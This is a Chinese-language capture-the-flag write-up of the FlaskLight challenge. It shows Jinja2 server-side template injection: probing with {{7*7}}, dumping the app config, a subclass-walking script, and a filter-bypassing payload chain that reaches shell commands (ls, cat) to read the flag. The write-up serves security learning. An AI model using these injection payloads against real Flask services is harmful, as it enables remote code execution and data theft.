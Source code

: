 # [CSCCTF 2019 Qual]FlaskLight
![](<./img/Pasted image 20221227093348.png>)

---
首页长这样

![](<./img/Pasted image 20221227093716.png>)

![](<./img/Pasted image 20221227093744.png>)

尝试传一些奇怪的东西
```python
/?search={{7*7}}
```

```
You searched for:
49
```

存在`SSTI`

```python
/?search={{config}}
```

```
<Config {'JSON_AS_ASCII': True, 'USE_X_SENDFILE': False, 'SESSION_COOKIE_SECURE': False, 'SESSION_COOKIE_PATH': None, 'SESSION_COOKIE_DOMAIN': False, 'SESSION_COOKIE_NAME': 'session', 'MAX_COOKIE_SIZE': 4093, 'SESSION_COOKIE_SAMESITE': None, 'PROPAGATE_EXCEPTIONS': None, 'ENV': 'production', 'DEBUG': False, 'SECRET_KEY': 'CCC{f4k3_Fl49_:v} CCC{the_flag_is_this_dir}', 'EXPLAIN_TEMPLATE_LOADING': False, 'MAX_CONTENT_LENGTH': None, 'APPLICATION_ROOT': '/', 'SERVER_NAME': None, 'PREFERRED_URL_SCHEME': 'http', 'JSONIFY_PRETTYPRINT_REGULAR': False, 'TESTING': False, 'PERMANENT_SESSION_LIFETIME': datetime.timedelta(31), 'TEMPLATES_AUTO_RELOAD': None, 'TRAP_BAD_REQUEST_ERRORS': None, 'JSON_SORT_KEYS': True, 'JSONIFY_MIMETYPE': 'application/json', 'SESSION_COOKIE_HTTPONLY': True, 'SEND_FILE_MAX_AGE_DEFAULT': datetime.timedelta(0, 43200), 'PRESERVE_CONTEXT_ON_EXCEPTION': None, 'SESSION_REFRESH_EACH_REQUEST': True, 'TRAP_HTTP_EXCEPTIONS': False}>
```

`url_for`用不了QAQ

使用脚本找找`__builtins__`

```python
num = 0
for item in ''.__class__.__mro__[2].__subclasses__():
    try:
         if '__builtins__' in item.__init__.__globals__:
             print num,item
         num+=1
    except:
        num+=1

```

```
58 <class 'warnings.WarningMessage'>
59 <class 'warnings.catch_warnings'>
60 <class '_weakrefset._IterationGuard'>
61 <class '_weakrefset.WeakSet'>
71 <class 'site._Printer'>
76 <class 'site.Quitter'>
77 <class 'codecs.IncrementalEncoder'>
78 <class 'codecs.IncrementalDecoder'>
```

这题给`__global__`过滤了太狠毒了QAQ，服务端`__init__`可以直接通过索引访问元素，本地运行会报错==

```python
/?search={{[].__class__.__base__.__subclasses__()[58].__init__['__glo'+'bals__']['__builtins__']['__import__']('commands').getoutput('ls')}}
```

```
You searched for:
bin boot dev etc flasklight home lib lib64 media mnt opt proc root run sbin srv sys tmp usr var
```

```python
/?search={{[].__class__.__base__.__subclasses__()[58].__init__['__glo'+'bals__']['__builtins__']['__import__']('commands').getoutput('ls flasklight')}}
```

```
You searched for:
app.py coomme_geeeett_youur_flek
```

```python
/?search={{[].__class__.__base__.__subclasses__()[58].__init__['__glo'+'bals__']['__builtins__']['__import__']('commands').getoutput('cat flasklight/coomme_geeeett_youur_flek')}}
```

```
You searched for:
flag{b1e72009-df67-40c1-b2ae-c24c0a679158}
```

#Web #python #flask #SSTI #RCE 